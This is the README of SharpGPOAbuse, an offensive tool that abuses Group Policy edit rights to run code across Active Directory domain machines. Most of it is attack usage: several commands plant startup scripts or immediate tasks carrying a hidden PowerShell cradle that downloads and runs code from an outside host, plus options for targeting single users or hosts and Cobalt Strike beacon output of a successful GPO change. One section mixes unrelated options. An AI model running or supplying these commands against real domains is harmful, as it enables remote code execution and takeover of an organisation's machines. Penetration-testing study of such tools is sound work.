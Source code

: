 # SharpGPOAbuse
SharpGPOAbuse is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO.

More details can be found at the following blog post: [https://labs.mwrinfosecurity.com/tools/sharpgpoabuse](https://labs.mwrinfosecurity.com/tools/sharpgpoabuse)

## Compile Instructions ## 
Make sure the necessary NuGet packages are installed properly and simply build the project in Visual Studio.

## Usage ##
```
Usage:
        SharpGPOAbuse.exe <AttackType> <AttackOptions>
```

## Attacks Types ## 
Currently SharpGPOAbuse supports the following options:

| Option               | Description                               |
| ---------------------|-------------------------------------------|
| [--AddUserRights](#adding-user-rights) | Add rights to a user                      |
| [--AddLocalAdmin](#adding-a-local-admin)      | Add a user to the local admins group      |
| [--AddComputerScript](#configuring-a-user-or-computer-logon-script)  | Add a new computer startup script         |
| [--AddUserScript](#configuring-a-user-or-computer-logon-script)      | Configure a user logon script             |
| [--AddComputerTask](#configuring-a-computer-or-user-immediate-task)    | Configure a computer immediate task       |
| [--AddUserTask](#configuring-a-computer-or-user-immediate-task)        | Add an immediate task to a user           |

## Attack Options

### Adding User Rights 
```
Options required to add new user rights:
--UserRights

Options required to add a new user or computer startup script:
--ScriptName
        Set the name of the new startup script.
--ScriptContents
        Set the contents of the new startup script.
--GPOName
        The name of the vulnerable GPO.

Example: 
        SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```

If you want to run the malicious script only on a specific user or computer controlled by the vulnerable GPO, you can add an if statement within the malicious script:
```
SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "if %username%==<targetusername> powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```

### Configuring a Computer or User Immediate Task  
```
Options required to add a new computer or user immediate task:

--TaskName
        Set the name of the new computer task.
--Author
        Set the author of the new task (use a DA account).
--Command
        Command to execute.
--Arguments
        Arguments passed to the command.
--GPOName
        The name of the vulnerable GPO.

Additional User Task Options:
--FilterEnabled
        Enable Target Filtering for user immediate tasks.
--TargetUsername
        The user to target. The malicious task will run only on the specified user. Should be in the format <DOMAIN>\<USERNAME>
--TargetUserSID
        The targeted user's SID.

Additional Computer Task Options:
--FilterEnabled
        Enable Target Filtering for computer immediate tasks.
--TargetDnsName
        The DNS name of the computer to target. The malicious task will run only on the specified host.
        
Example: 
        SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```

If you want to run the malicious task only on a specific user or computer controlled by the vulnerable GPO you can use something similar to the following:
```
SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO" --FilterEnabled --TargetDnsName target.domain.com

```

## Additional Options 
| Option               | Description                               |
| ---------------------|-------------------------------------------|
| --DomainController   | Set the target domain controller          |
| --Domain             | Set the target domain                     |
| --Force              | Overwrite existing files if required      | 

## Example Output
```
beacon> execute-assembly /root/Desktop/SharpGPOAbuse.exe --AddComputerTask --TaskName "New Task" --Author EUROPA\Administrator --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.141:80/a'))\"" --GPOName "Default Server Policy"
[*] Tasked beacon to run .NET program: SharpGPOAbuse_final.exe --AddComputerTask --TaskName "New Task" --Author EUROPA\Administrator --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"I
EX ((new-object net.webclient).downloadstring('http://10.1.1.141:80/a'))\"" --GPOName "Default Server Policy"
[+] host called home, sent: 171553 bytes
[+] received output:
[+] Domain = europa.com
[+] Domain Controller = EURODC01.europa.com
[+] Distinguished Name = CN=Policies,CN=System,DC=europa,DC=com
[+] GUID of "Default Server Policy" is: {877CB769-3543-40C6-A757-F2DF4E5E28BD}
[+] Creating file \\europa.com\SysVol\europa.com\Policies\{877CB769-3543-40C6-A757-F2DF4E5E28BD}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
```
